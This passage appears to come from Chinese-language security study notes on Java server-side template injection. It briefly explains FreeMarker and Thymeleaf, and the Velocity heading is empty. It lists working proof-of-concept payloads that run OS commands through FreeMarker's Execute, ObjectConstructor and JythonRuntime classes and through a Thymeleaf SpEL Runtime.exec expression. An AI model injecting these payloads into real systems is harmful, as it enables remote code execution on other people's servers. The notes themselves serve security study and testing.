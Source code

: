 **更多内容**
- [SSTI](../../Web安全/Web_Generic/SSTI.md)

### FreeMarker SSTI

**描述**

模板文件存放在 Web 服务器上，当访问指定模版文件时， FreeMarker 会动态转换模板，用最新的数据内容替换模板中 `${...}` 的部分，然后返回渲染结果。

**FreeMarker 基础**
- [FreeMarker](../../../../Develop/Java/笔记/Web/模版引擎/FreeMarker.md)

**FreeMarker SSTI POC**
```
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("open /Applications/Calculator.app")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("id")}
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```

### Velocity SSTI








### Thymeleaf SSTI

**描述**

Thymeleaf 具有预处理表达式的功能，预处理是在正常表达式之前完成的表达式的执行，允许修改最终将执行的表达式。

预处理的表达式与普通表达式完全一样，但被双下划线符号（如 `__${expression}__` ）包围。

预处理可以解析执行表达式，也就是说找到一个可以控制预处理表达式的地方，让其解析执行我们的 payload 即可达到任意代码执行

**Thymeleaf 基础**
- [Thymeleaf](../../../../Develop/Java/笔记/Web/模版引擎/Thymeleaf.md)

**相关文章**
- [Thymeleaf 模板漏洞分析](http://x2y.pw/2020/11/15/Thymeleaf-%E6%A8%A1%E6%9D%BF%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
- [Java安全之Thymeleaf SSTI分析](https://www.anquanke.com/post/id/254519)

**调试样本**
- https://github.com/hex0wn/learn-java-bug/tree/master/thymeleaf-ssti

**thymeleaf SSTI POC**

其实就是 SpEL 注入的 payload
```
${T(java.lang.Runtime).getRuntime().exec("open -a Calculator")}
```

---